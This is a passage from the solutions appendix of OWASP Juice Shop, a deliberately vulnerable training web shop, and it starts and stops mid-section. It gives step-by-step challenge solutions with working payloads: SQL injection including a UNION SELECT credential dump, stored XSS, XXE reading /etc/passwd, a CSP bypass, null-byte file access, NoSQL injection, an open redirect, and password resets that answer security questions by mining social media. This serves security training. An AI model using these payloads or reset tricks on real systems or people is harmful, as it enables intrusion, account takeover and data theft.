<<change-benders-password-into-slurmcl4ssic-without-using-sql-injection-or-forgot-password,Change Bender's password into _slurmCl4ssic_ without using SQL Injection or Forgot Password>>
first and then simply log in with the new password.

=== Log in with Jim's user account

* Log in with _Email_ `jim@juice-sh.op'--` and any _Password_ if you
already know the email address of Jim.
* or log in with _Email_ `jim@juice-sh.op` and _Password_ `ncc-1701` if
you looked up Jim's password hash in a rainbow table after harvesting
the user data as described in
<<retrieve-a-list-of-all-user-credentials-via-sql-injection,Retrieve a list of all user credentials via SQL Injection>>.

=== Place an order that makes you rich

. Log in as any user.
. Put at least one item into your shopping basket.
. Note that reducing the quantity of a basket item below 1 is not
possible via the UI
. When changing the quantity via the UI, you will notice `PUT` requests
to http://localhost:3000/api/BasketItems/{id}[http://localhost:3000/api/BasketItems/\{id}] in the Network tab of
your DevTools
. Memorize the `+{id}+` of any item in your basket
. Copy your `Authorization` header from any HTTP request submitted via
browser.
. Submit a `PUT` request to
http://localhost:3000/api/BasketItems/{id}[http://localhost:3000/api/BasketItems/\{id}] replacing `+{id}+` with
the memorized number from 5. and with:
 ** `{"quantity": -100}` as body,
 ** `application/json` as `Content-Type`
 ** and `Bearer ?` as `Authorization` header, replacing the `?` with
the token you copied from the browser.

+
image::appendix/negative_order_postman-body.png[Negative quantity request body in PostMan]
. Visit http://localhost:3000/#/basket to view _Your Basket_ with the
negative quantity on the first item
+
image::appendix/negative_order-basket.png[Basket with negative item quantity]

. Click _Checkout_ to issue the negative order and solve this
challenge.
+
image::appendix/negative_order_pdf.pdf.png[Order confirmation with negative total]

=== Prove that you actually read our privacy policy

. Open http://localhost:3000/#/privacy-security/privacy-policy.
. Moving your mouse cursor over each paragraph will make a fire-effect
appear on certain words or partial sentences.
+
image::appendix/privacy-policy_hot-section.png[Hot section in the privacy policy]

. Inspect the HTML in your browser and note down all text inside `<span
class="hot">` tags, which are `+http://localhost+`, `We may also`,
`instruct you`, `to refuse all`, `reasonably necessary` and
`responsibility`.
. Combine those into the URL
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility
(adding the server port if needed) and solve the challenge by
visiting it.

It seems the Juice Shop team did not appreciate your extensive reading
effort enough to provide even a tiny gratification, as you will receive
only a `404 Error: ENOENT: no such file or directory, stat
'/app/frontend/dist/frontend/assets/private/thank-you.jpg'`.

=== Change the href of the link within the O-Saft product description

. By searching for _O-Saft_ directly via the REST API with
http://localhost:3000/rest/products/search?q=o-saft you will learn
that it's database ID is `9`.
. Submit a `PUT` request to http://localhost:3000/api/Products/9
with:
 ** `+{"description": "<a href=\"https://owasp.slack.com\"
target=\"_blank\">More...</a>"}+` as body
 ** and `application/json` as `Content-Type`

+
image::appendix/osaft_postman-body.png[O-Saft link update via PostMan]

=== Reset the password of Bjoern's OWASP account via the Forgot Password mechanism

. Visit http://localhost:3000/#/forgot-password and provide
   `bjoern@owasp.org` as your _Email_.
. You will notice that the security question Bjoern chose is _Name of your
favorite pet?_
. Find Bjoern's Twitter profile at https://twitter.com/bkimminich
. Going through his status updates or media you'll spot a few photos of a cute cat and eventually also find the Tweet https://twitter.com/bkimminich/status/1441659996589207555 or maybe the more recent https://twitter.com/bkimminich/status/1594985736650035202
. The text of this Tweet spoilers the name of the cat as "Zaya"
. Visit http://localhost:3000/#/forgot-password again and once more provide
`bjoern@owasp.org` as your _Email_.
. In the subsequently appearing form, provide `Zaya` as _Name of your
favorite pet?_
. Then type any _New Password_ and matching _Repeat New Password_
. Click _Change_ to solve this challenge

image::appendix/zaya_rowing.png[Zaya "rowing" with a half-amputated hind leg in a Tweet of Bjoern]

image::appendix/zaya_flippered.png[Zaya in a box in another Tweet of Bjoern]

==== Alternative name-drop on YouTube

. Find Bjoern's
https://www.youtube.com/playlist?list=PLV9O4rIovHhO1y8_78GZfMbH6oznyx2g2[_OWASP Juice Shop_ playlist on Youtube]
. Watch
https://www.youtube.com/watch?v=Lu0-kDdtVf4[BeNeLux Day 2018: Juice Shop: OWASP's Most Broken Flagship - Björn Kimminich]
. This conference talk recording immediately dives into a demo of the
Juice Shop application in which Bjoern starts registering a new
account 3:59 into the video (https://youtu.be/Lu0-kDdtVf4?t=239)
. Bjoern picks _Name of your favorite pet?_ as his security question
and - live on camera - answers it truthfully with "Zaya", the name of
his family's adorable three-legged cat.

==== Partial hints about Bjoern's choice of security answer

The *user profile picture* of his account at
http://localhost:3000/assets/public/images/uploads/12.jpg shows his
pet cat.

image::appendix/zaya_window.jpg[Zaya at window]

Retrieving another photo of his cat is the subject of the
xref:../part2/improper-input-validation.adoc#_retrieve_the_photo_of_bjoerns_cat_in_melee_combat_mode[Retrieve the photo of Bjoern's cat in "melee combat-mode"]
challenge. The corresponding image caption "😼 #zatschi
#whoneedsfourlegs" also leaks the nickname "Zatschi" of the pet - which
is cute, but (intentionally) not very helpful to find out her real name,
though.

image::appendix/zaya_melee.jpg[Zaya in melee combat mode]

=== Reset Jim's password via the Forgot Password mechanism

. Visit http://localhost:3000/#/forgot-password and provide
`jim@juice-sh.op` as your _Email_ to learn that _Your eldest siblings
middle name?_ is Jim's chosen security question
. Jim (whose `UserId` happens to be `2`) left some breadcrumbs in the
application which reveal his identity
 ** A product review for the _OWASP Juice Shop-CTF Velcro Patch_
stating _"Looks so much better on my uniform than the boring
Starfleet symbol."_
 ** Another product review _"Fresh out of a replicator."_ on the _Green
Smoothie_ product
 ** A _Recycling Request_ associated to his saved address _"Room 3F
121, Deck 5, USS Enterprise, 1701"_
. It should eventually become obvious that _James T. Kirk_ is the only
viable solution to the question of Jim's identity
+
image::appendix/Star_Trek_William_Shatner.JPG[James T. Kirk]

. Visit https://en.wikipedia.org/wiki/James_T._Kirk and read the
https://en.wikipedia.org/wiki/James_T._Kirk#Depiction[Depiction]
section
. It tells you that Jim has a brother named _George Samuel Kirk_
. Visit http://localhost:3000/#/forgot-password and provide
`jim@juice-sh.op` as your _Email_
. In the subsequently appearing form, provide `Samuel` as _Your eldest
siblings middle name?_
. Then type any _New Password_ and matching _Repeat New Password_
. Click _Change_ to solve this challenge
+
image::appendix/jim_forgot-password.png[Password reset for Jim]

=== Upload a file larger than 100 kB

. The client-side validation prevents uploads larger than 100 kB.
. Craft a `POST` request to http://localhost:3000/file-upload with a
form parameter `file` that contains a PDF file of more than 100 kB
but less than 200 kB.
+
image::appendix/invalid-size_upload.png[Larger file upload]

. The response from the server will be a `204` with no content, but the
challenge will be successfully solved.

Files larger than 200 kB are rejected by an upload size check on server
side with a `500` error stating `Error: File too large`.

=== Upload a file that has no .pdf or .zip extension

. Craft a `POST` request to http://localhost:3000/file-upload with a
form parameter `file` that contains a non-PDF file with a size of
less than 200 kB.
+
image::appendix/invalid-type_upload.png[Non-PDF upload]

. The response from the server will be a `204` with no content, but the
challenge will be successfully solved.

Uploading a non-PDF file larger than 100 kB will solve
<<upload-a-file-larger-than-100-kb,Upload a file larger than 100 kB>>
simultaneously.

=== Perform a persisted XSS attack bypassing a client-side security mechanism

. Submit a POST request to http://localhost:3000/api/Users with
 ** `{"email": "<iframe src=\"javascript:alert(`xss`)\">", "password":
"xss"}` as body
 ** and `application/json` as `Content-Type` header.

+
image::appendix/xss2_postman.png[XSS request in PostMan]
. Log in to the application with an admin.
. Visit http://localhost:3000/#/administration.
. An alert box with the text "xss" should appear.
+
image::appendix/xss2_alert.png[XSS alert box]

. Close this box. Notice the somewhat broken looking row in the
_Registered Users_ table?
. Click the "eye"-button in that row.
. A modal overlay dialog with the user details opens where the attack
string is rendered as harmless text.
+
image::appendix/xss2_user-modal.png[XSS user in details dialog]

=== Perform a persisted XSS attack without using the frontend application at all

. Log in to the application with any user.
. Copy your `Authorization` header from any HTTP request submitted via
browser.
. Submit a POST request to http://localhost:3000/api/Products with
 ** `{"name": "XSS", "description": "<iframe
src=\"javascript:alert(`xss`)\">", "price": 47.11}` as body,
 ** `application/json` as `Content-Type`
 ** and `Bearer ?` as `Authorization` header, replacing the `?` with
the token you copied from the browser.

+
image::appendix/xss3_postman.png[XSS request in PostMan]
. Visit http://localhost:3000/#/search.
. An alert box with the text "xss" should appear.
+
image::appendix/xss3_alert.png[XSS alert box]

. Close this box. Notice the product row which has a frame border in
the description in the _All Products_ table
. Click the "eye"-button next to that row.
. Another alert box with the text "xss" should appear. After closing it
the actual details dialog pops up showing the same frame border.
+
image::appendix/xss3_product-modal_alert.png[After closing the XSS alert box in product details]

=== Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

. Solve the
<<use-a-deprecated-b2b-interface-that-was-not-properly-shut-down,Use a deprecated B2B interface that was not properly shut down>>
challenge.
. Prepare an XML file which defines and uses an external entity
`<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
. Upload this file through the _File Complaint_ dialog and observe the
Javascript console while doing so. It should give you an error
message containing the parsed XML, including the contents of the
local system file!

[,xml]
----
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
----

== ⭐⭐⭐⭐ Challenges

=== Gain access to any access log file of the server

. Solve the
<<access-a-confidential-document,Access a confidential document>> or
any related challenges which will bring the exposed `/ftp` folder to
your attention.
. Visit http://localhost:3000/ftp and notice the file
`incident-support.kdbx` which is needed for
xref:../part2/security-misconfiguration.adoc#_log_in_with_the_support_teams_original_user_credentials[Log in with the support team's original user credentials]
and indicates that some support team is performing its duties from
the public Internet and possibly with VPN access.
. Guess luckily or run a brute force attack with e.g.
https://github.com/zaproxy/zap-extensions/tree/beta/src/org/zaproxy/zap/extension/bruteforce[OWASP ZAPs DirBuster plugin]
for a possibly exposed directory containing the log files.
. Following
xref:../part2/sensitive-data-exposure.adoc#_gain_access_to_any_access_log_file_of_the_server[the hint to drill down deeper than one level],
you will at some point end up with
http://localhost:3000/support/logs.
. Inside you will find at least one `access.log` of the current day.
Open or download it to solve this challenge.
+
image::appendix/access-log_folder.png[Exposed folder containing access logs]

=== Bypass the Content Security Policy and perform an XSS attack on a legacy page

. Log in as any user.
. Visit our user profile page at http://localhost:3000/profile.
. Type in any _Username_ and click the _Set Username_ button.
. Notice that the username is displayed beneath the profile image.
. Change the username into `<script>alert(`xss`)</script>` and click
_Set Username_.
. Notice the displayed username under the profile picture now is
`lert(`xss`)` while in the _Username_ field it shows
`lert(`xss`)</script>` - both a clear indication that the malicious
input was sanitized. Obviously the sanitization was not very
sophisticated, as the input was quite mangled and even the closing
`<script>` tag survived the procedure.
. Change the username into `<<a|ascript>alert(`xss`)</script>` and
click _Set Username_.
. The naive sanitizer only removes `<a|a` effectively changing the
username into `<script>alert(`xss`)</script>` but you'll notice
that the script is still not executed!
. The username shows as `\` on the screen and the
`<script>alert(`xss`)</script>` is part of the DOM. It seems that
its execution was blocked by the Content Security Policy (CSP) of the
page.
. Bypassing the CSP requires to exploit a totally different attack
vector on the profile page: The _Image URL_ field.
. Set the _Image URL_ to some valid image URL, e.g.
https://placekitten.com/300/300 and click _Link Image_ while
inspecting the network traffic via your browser's DevTools.
. Notice how the `Content-Security-Policy` response header has been
changed in the subsequent call to http://localhost:3000/profile?
It now contains an entry like
`/assets/public/images/uploads/17.jpg;`, which is the location of
the successfully uploaded image.
. Try setting the _Image URL_ again, but now to some invalid image
URL, e.g. http://definitely.not.an/image.png. While the linking
fails and your profile will show a broken image, the CSP header will
now contain `+http://definitely.not.an/image.png;+` - the originally
supplied URL.
. This influence on the CSP header - plus the fact that the first
encountered entry in case of duplicates always wins - is fatal for
the application. We can basically overwrite the CSP with one of our
own choosing.
. Set `+https://a.png; script-src 'unsafe-inline' 'self' 'unsafe-eval'
https://code.getmdl.io http://ajax.googleapis.com+` as _Image URL_
and click _Link Image.
. Refresh the page to give the browser the chance to load the tampered
CSP and enjoy the alert box popping up!

=== Order the Christmas special offer of 2014

. Open http://localhost:3000/#/search and reload the page with `F5`
while observing the _Network_ tab in your browser's DevTools
. Recognize the `GET` request
http://localhost:3000/rest/products/search?q= which returns the
product data.
. Submitting any SQL payloads via the _Search_ field in the navigation
bar will do you no good, as it is only applying filters onto the
entire data set what was retrieved with a singular call upon loading
the page.
. In that light, the `q=` parameter on the
http://localhost:3000/rest/products/search endpoint would not even
be needed, but might be a relic from a different implementation of
the search functionality. Test this theory by submitting
http://localhost:3000/rest/products/search?q=orange which should
give you a result such as
+
image::appendix/search-result_orange.png[JSON search result for "orange" keyword]

. Submit `';` as `q` via
http://localhost:3000/rest/products/search?q=';
. You will receive an error page with a `SQLITE_ERROR: syntax error`
mentioned, indicating that SQL Injection is indeed possible.
+
image::appendix/search-error_sql-syntax.png[SQL search query syntax error]

. You are now in the area of Blind SQL Injection, where trying create
valid queries is a matter of patience, observance and a bit of luck.
. Varying the payload into `'--` for `q` results in a `SQLITE_ERROR:
incomplete input`. This error happens due to two (now unbalanced)
parenthesis in the query.
. Using `'))--` for `q` fixes the syntax and successfully retrieves all
products, including the (logically deleted) Christmas offer. Take
note of its `id` (which should be `10`)
+
image::appendix/search-result_christmas.png[JSON search result with the Christmas special]

. Go to http://localhost:3000/#/login and log in as any user.
. Add any regularly available product into you shopping basket to
prevent problems at checkout later. Memorize your `BasketId` value
in the request payload (when viewing the Network tab) or find the
same information in the `bid` variable in your browser's Session
Storage (in the Application tab).
. Craft and send a `POST` request to
http://localhost:3000/api/BasketItems with
 ** `{"BasketId": "<Your Basket ID>", "ProductId": 10, "quantity": 1}`
as body
 ** and `application/json` as `Content-Type`
. Go to http://localhost:3000/#/basket to verify that the "Christmas
Super-Surprise-Box (2014 Edition)" is in the basket
. Click _Checkout_ on the _Your Basket_ page to solve the challenge.

==== Alternative path without any SQL Injection

This solution involves a lot less hacking & sophistication but requires
more attention & a good portion of shrewdness.

. Retrieve all products as JSON by calling
http://localhost:3000/rest/products/search?q=
. Write down all ``id``s that are _missing_ in the otherwise sequential
numeric range
. Perform step 12. and 13. from above solution for all those missing
``id``s
. Once you hit the "Christmas Super-Surprise-Box (2014 Edition)" click
_Checkout_ for instant success!

=== Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous

. Solve
<<order-the-christmas-special-offer-of-2014,Order the Christmas special offer of 2014>>
but enumerate all deleted products until you come across "Rippertuer
Special Juice"
. Notice the warning _"This item has been made unavailable because of
lack of safety standards."_ in its description, indicating that this
is the product you need to investigate for this challenge
. Further notice the partial list of ingredients in the description
namely _"Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora,
Bael Aegle marmelos... and others"_
. Submitting either or all of the above ingredients at
http://localhost:3000/#/contact will *not* solve this challenge -
it must be some unlisted ingredients that create a dangerous
combination.
. A simple Google search for `Cherymoya Annona cherimola Jabuticaba
Myrciaria cauliflora Bael Aegle marmelos` should bring up several
results, one of them being a blog post "Top 20 Fruits You Probably
Don't Know" from 2011. Visit this post at
https://listverse.com/2011/07/08/top-20-fruits-you-probably-dont-know
. Scrolling through the list of replies you will notice
https://listverse.com/2011/07/08/top-20-fruits-you-probably-dont-know/#comment-4541753139[a particular comment from user _Localhorst_]
saying _"Awesome, some of these fruits also made it into our
"Rippertuer Special Juice"! https://pastebin.com/90dUgd7s"_
. Visit https://pastebin.com/90dUgd7s to find a PasteBin paste titled
"Rippertuer Special Juice Ingredients" containing a JSON document
with many exotic fruits in it, each with its name as `type` and a
detailed `description`
. When carefully reading all fruit descriptions you will notice a
warning on the `Hueteroneel` fruit that _"this coupled with Eurogium
Edule was sometimes found fatal"_
+
image::appendix/rippertuer-ingredients.png[Ingredients list of "Rippertuer Special Juice"]

. As `Eurogium Edule` is also on the very same list of ingredients,
these two must be the ones you are looking for
. Submit a comment containing both `Eurogium Edule` and `Hueteroneel`
via http://localhost:3000/#/contact to solve this challenge

=== Find the hidden easter egg

. Use the _Poison Null Byte_ attack described in
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>...
. ...to download http://localhost:3000/ftp/eastere.gg%2500.adoc

=== Apply some advanced cryptanalysis to find the real easter egg

. Get the encrypted string from the `eastere.gg` from the
<<find-the-hidden-easter-egg,Find the hidden easter egg>> challenge:
`L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`
. Base64-decode this into
`/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`
. Trying this as a URL will not work. Notice the recurring patterns
(`rtt`, `gur` etc.) in the above string
. ROT13-decode this into
`/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`
. Visit
http://localhost:3000/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
+
image::appendix/planet_orangeuze.png[Planet Orangeuze]

. Marvel at _the real_ easter egg: An interactive 3D scene of _Planet
Orangeuze_!

____
ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple
letter substitution cipher that replaces a letter with the letter 13
letters after it in the alphabet. ROT13 is a special case of the
Caesar cipher, developed in ancient Rome.

Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13
is its own inverse; that is, to undo ROT13, the same algorithm is
applied, so the same action can be used for encoding and decoding. The
algorithm provides virtually no cryptographic security, and is often
cited as a canonical example of weak encryption.footnote:1[https://en.wikipedia.org/wiki/ROT13]
____

=== Successfully redeem an expired campaign coupon code

. Open `main.js` in your Browser's dev tools and search for
`campaign`.
+
image::appendix/minified_js-campaigncode.png[Campaign code in minified JavaScript]

. You will find a `this.campaigns` assignment of an object containing
various campaign codes. Depending on when you are reading this book,
one or more of these might be expired. Let's continue with the oldest
available one, which is `WMNSDY2019`.
. A bit further down in the minified code you will notice a function
`applyCoupon()` that uses `this.campaigns` and in particular the
contained `validOn` timestamp of a coupon.
. Ignoring that validity check and just submitting `WMNSDY2019` will
yield an `Invalid Coupon.` error, as you would expect. This is
because of the second part of the assertion `this.clientDate ===
e.validOn`.
. Converting `validOn: 15519996e5` of the `WMNSDY2019` coupon into a
JavaScript date will tell you that this campaign was active on March
8th 2019 only: Women's Day!
. Set the time of your computer to March 8th 2019 and try to submit the
code again.
. This time it will be accepted! Proceed to _Checkout_ to get the
challenge solved.

=== Access a developer's forgotten backup file

. Browse to http://localhost:3000/ftp (like in
<<access-a-confidential-document,Access a confidential document>>.
. Opening http://localhost:3000/ftp/package.json.bak directly will
fail complaining about an illegal file type.
. Using a _Poison Null Byte_ (`%00`) the filter can be tricked, but
only with a twist:
 ** Accessing http://localhost:3000/ftp/package.json.bak%00.adoc will
surprisingly *not* succeed...
 ** ...because the `%` character needs to be URL-encoded (into `%25`)
as well in order to work its magic later during the file system
access.
. http://localhost:3000/ftp/package.json.bak%2500.adoc will ultimately
solve the challenge.

=== Access a salesman's forgotten backup file

. Use the _Poison Null Byte_ attack described in
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>...
. ...to download
http://localhost:3000/ftp/coupons_2013.adoc.bak%2500.adoc

=== Log in with Bjoern's Gmail account

. Bjoern has registered via Google OAuth with his (real) account
link:mailto:bjoern.kimminich@googlemail.com[bjoern.kimminich@googlemail.com].
. Cracking his password hash will probably not work.
. To find out how the OAuth registration and login work, inspect the
`main.js` and search for `oauth`, which will eventually reveal
a function `userService.oauthLogin()`.
+
image::appendix/minified_js-oauth.png[oauthLogin function in main.js]

. In the function body you will notice a call to `userService.save()` -
which is used to create a user account in the non-Google _User
Registration_ process - followed by a call to the regular
`userService.login()`
. The `save()` and `login()` function calls both leak how the password
for the account is set: `password:
btoa(n.email.split("").reverse().join(""))`
. Some Internet search will reveal that `window.btoa()` is a default
function to encode strings into Base64.
. What is passed into `btoa()` is `email.split("").reverse().join("")`,
which is simply the email address string reversed.
. Now all you have to do is Base64-encode `moc.liamg@hcinimmik.nreojb`,
so you can log in directly with _Email_ `bjoern.kimminich@gmail.com`
and _Password_ `bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=`.

=== Steal someone else's personal data without using Injection

. Log in as any user, put some items into your basket and create an
order from these.
. Notice that you end up on a URL with a seemingly generated random part, like http://localhost:3000/#/order-completion/5267-829f123593e9d098
. On that _Order Summary_ page, click on the _Track Orders_ link under the _Thank you for your purchase!_ message to end up on a URL simular to http://localhost:3000/#/track-result/new?id=5267-829f123593e9d098
. Open the network tab of your browser's DevTools and refresh that page. You should notice a request similar
to http://localhost:3000/rest/track-order/5267-829f123593e9d098.
. Inspecting the response closely, you might notice that the user email
address is partially obfuscated:
`+{"status":"success","data":[{"orderId":"5267-829f123593e9d098","email":"*dm*n@j**c*-sh.*p","totalPrice":2.88,"products":[{"quantity":1,"name":"Apple
Juice
(1000ml)","price":1.99,"total":1.99,"bonus":0},{"quantity":1,"name":"Apple
Pomace","price":0.89,"total":0.89,"bonus":0}],"bonus":0,"eta":"2","_id":"tosmfPsDaWcEnzRr3"}]}+`
. It looks like certain letters - seemingly all vowels - were replaced
with `*` characters before the order was stored in the database.
. Register a new user with an email address that would result in _the
exact same_ obfuscated email address. For example register
`edmin@juice-sh.op` to steal the data of `admin@juice-sh.op`.
. Log in with your new user and immediately get your data exported via
http://localhost:3000/#/privacy-security/data-export.
. You will notice that the order belonging to the existing user
`admin@juice-sh.op` (in this example `5267-829f123593e9d098`) is part
of your new user's data export due to the clash when obfuscating
emails!

=== Access a misplaced SIEM signature file

. Use the _Poison Null Byte_ attack described in
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>...
. ...to download
http://localhost:3000/ftp/suspicious_errors.yml%2500.adoc

=== Let the server sleep for some time

. You can interact with the backend API for product reviews via the
dedicated endpoints `/rest/products/reviews` and
`+/rest/products/{id}/reviews+`
. Get the reviews of the product with database ID 1:
http://localhost:3000/rest/products/1/reviews
. Inject a
https://docs.mongodb.com/manual/reference/method/sleep/[`sleep(integer ms)` command]
by changing the URL into
http://localhost:3000/rest/products/sleep(2000)/reviews to solve the
challenge

To avoid _real_ Denial-of-Service (DoS) issues, the Juice Shop will only
wait for a maximum of 2 seconds, so
http://localhost:3000/rest/products/sleep(999999)/reviews should not
take longer than http://localhost:3000/rest/products/sleep(2000)/reviews
to respond.

=== Update multiple product reviews at the same time

. Log in as any user to get your `Authorization` token from any
subsequent request's headers.
. Submit a PATCH request to http://localhost:3000/rest/products/reviews
with
 ** `{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }` as body
 ** `application/json` as `Content-Type` header.
 ** and `Bearer ?` as `Authorization` header, replacing the `?` with
the token you received in step 1.

+
image::appendix/nosql_multiple-reviews-updated.png[Multiple review updated via NoSQL Injection]
. Check different product detail dialogs to verify that _all review
texts_ have been changed into `NoSQL Injection!`

=== Enforce a redirect to a page you are not supposed to redirect to

. Pick one of the redirect links in the application, e.g.
http://localhost:3000/redirect?to=https://github.com/juice-shop/juice-shop
from the _GitHub_-button in the navigation bar.
. Trying to redirect to some unrecognized URL fails due to allowlist
validation with `406 Error: Unrecognized target URL for redirect`.
. Removing the `to` parameter (http://localhost:3000/redirect) will
instead yield a `500 TypeError: Cannot read property 'indexOf' of
undefined` where the `indexOf` indicates a severe flaw in the way the
allowlist works.
. Craft a redirect URL so that the target-URL in `to` comes with an own
parameter containing a URL from the allowlist, e.g.
http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/juice-shop/juice-shop

=== Bypass a security control with a Poison Null Byte

. Solve
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>,
<<access-a-salesmans-forgotten-backup-file,Access a salesman's forgotten backup file>>,
<<access-a-misplaced-siem-signature-file,Access a misplaced SIEM signature file>>
or <<find-the-hidden-easter-egg,Find the hidden easter egg>> to solve
this challenge as a by-product.

=== Reset Bender's password via the Forgot Password mechanism

. Trying to find out who "Bender" might be should _immediately_ lead
you to _Bender from http://www.imdb.com/title/tt0149460/[Futurama]_
as the only viable option
+
image::appendix/Bender_Rodriguez.png[Bender]

. Visit https://en.wikipedia.org/wiki/Bender_(Futurama) and read the
_Character Biography_ section
. It tells you that Bender had a job at the metalworking factory,
bending steel girders for the construction of _suicide booths_.
. Find out more on _Suicide Booths_ on
http://futurama.wikia.com/wiki/Suicide_booth
. This site tells you that their most important brand is _Stop'n'Drop_
. Visit http://localhost:3000/#/forgot-password and provide
`bender@juice-sh.op` as your _Email_
. In the subsequently appearing form, provide `Stop'n'Drop` as _Company
you first work for as an adult?_
. Then type any _New Password_ and matching _Repeat New Password_
. Click _Change_ to solve this challenge

=== Reset Uvogin's password via the Forgot Password mechanism

. To reset Uvogin's password, you need the to find out what his
favorite movie is in order to answer his security question. This is
the kind of information that people often carelessly expose online.
. People often tend to reuse aliases on different websites.
https://github.com/sherlock-project/sherlock[Sherlock] is a great
tool for finding social media accounts with known aliases/pesudonyms.
. Unfortunately, plugging _uvogin_ into sherlock yields nothing of
interest. Reading the reviews left by uvogin on the various products,
one can notice that they have quite an affinity for _leetspeak_
. Trying out a few variations of the alias uvogin, _uv0gin_ leads us to
a twitter account with a similarly written tweet which references a
vulnerable beverage store. However nothing about his favorite movie
+
image::appendix/uvogin_twitter.png[Uvogin's Twitter]

. The https://archive.org/web/[WayBack] can be used to check for
older versions of their profile page to look for deleted tweets. And
indeed, one of the snapshots available on WayBack contains a deleted
tweet that references `Silence of the Lambs` which is infact the
correct answer to his security question
+
image::appendix/uvogin_twitter_snap.png[Uvogin's Twitter Snapshot]

=== Rat out a notorious character hiding in plain sight in the shop

. Looking for irregularities among the image files you will at some
point notice that `5.png` is the only PNG file among otherwise only
JPGs in the customer feedback carousel:
+
image::appendix/steganography.png[Steganography customer support image]

. Running this image through some decoders available online will
probably just return garbage, e.g.
http://stylesuxx.github.io/steganography/ gives you `+ÿÁÿm¶Û$ÿ
?HÕPü^ÛN'c±UY;fäHÜmÉ#r<v¸+` or
https://www.mobilefish.com/services/steganography/steganography.php
gives up with `No hidden message or file found in the image`. On
https://incoherency.co.uk/image-steganography/#unhide you will also
find nothing independent of how you set the _Hidden bits_ slider:
+
image::appendix/steganography_failed-unhide.png[Steganography unhiding fails]

. Moving on to client applications you might end up with
https://www.openstego.com/[OpenStego] which is built in Java but
also offers a Windows installer at
https://github.com/syvaidya/openstego/releases.
. Selecting the `5.png` and clicking _Extract Data_ OpenStego will
quickly claim to have been successful:
+
image::appendix/steganography_openstego-success.png[Steganography exctraction successful]

. The image that will be put into the _Output Stego file_ location
clearly depicts a pixelated version of
https://en.wikipedia.org/wiki/Pickle_Rick[Pickle Rick] (from S3E3 -
one of the best
https://en.wikipedia.org/wiki/Rick_and_Morty[Rick & Morty] episodes
ever)
+
image::appendix/steganography_pickle-rick.png[Pickle Rick unveiled]

. Visit http://localhost:3000/#/contact
. Submit your feedback containing the name `Pickle Rick` (case doesn't
matter) to solve this challenge.

=== Inform the shop about a typosquatting trick it has been a victim of

. Solve the
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>
challenge and open the `package.json.bak` file
. Scrutinizing each entry in the `dependencies` list you will at some
point get to `epilogue-js`, the overview page of which gives away
that you find the culprit at
https://www.npmjs.com/package/epilogue-js
+
image::appendix/npm_epilogue-js.png[epilogue-js on NPM]

. Visit http://localhost:3000/#/contact
. Submit your feedback with `epilogue-js` in the comment to solve this
challenge

You can probably imagine that the typosquatted `epilogue-js` would be _a
lot harder_ to distinguish from the original repository `epilogue`, if
it where not marked with the _THIS IS *NOT* THE MODULE YOU ARE LOOKING
FOR!_-warning at the very top. Below you can see the original `epilogue`
NPM page:

image::appendix/npm_epilogue.png[epilogue on NPM]

=== Retrieve a list of all user credentials via SQL Injection

. During the
<<order-the-christmas-special-offer-of-2014,Order the Christmas special offer of 2014>>
challenge you learned that the `/rest/products/search` endpoint is
susceptible to SQL Injection into the `q` parameter.
. The attack payload you need to craft is a `UNION SELECT` merging the
data from the user's DB table into the products returned in the JSON
result.
. As a starting point we use the known working `'))--` attack pattern
and try to make a `UNION SELECT` out of it
. Searching for `')) UNION SELECT * FROM x--` fails with a
`SQLITE_ERROR: no such table: x` as you would expect. But we can
easily guess the table name or infer it from one of the previous
attacks on the _Login_ form where even the underlying SQL query was
leaked.
. Searching for `')) UNION SELECT * FROM Users--` fails with a
promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
not have the same number of result columns` which least confirms the
table name.
. The next step in a `UNION SELECT`-attack is typically to find the
right number of returned columns. As the _Search Results_ table in
the UI has 3 columns displaying data, it will probably at least be
three. You keep adding columns until no more `SQLITE_ERROR` occurs
(or at least it becomes a different one):
 .. `')) UNION SELECT '1' FROM Users--` fails with `number of result
columns` error
 .. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
result columns` error
 .. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
of result columns` error
 .. (...)
 .. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
Users--` _still fails_ with `number of result columns` error
 .. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
Users--` finally gives you a JSON response back with an extra
element
`{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
. Next you get rid of the unwanted product results changing the query
into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
'6', '7', '8', '9' FROM Users--` leaving only the "``UNION``ed" element
in the result set
. The last step is to replace the fixed values with correct column
names. You could guess those *or* derive them from the RESTful API
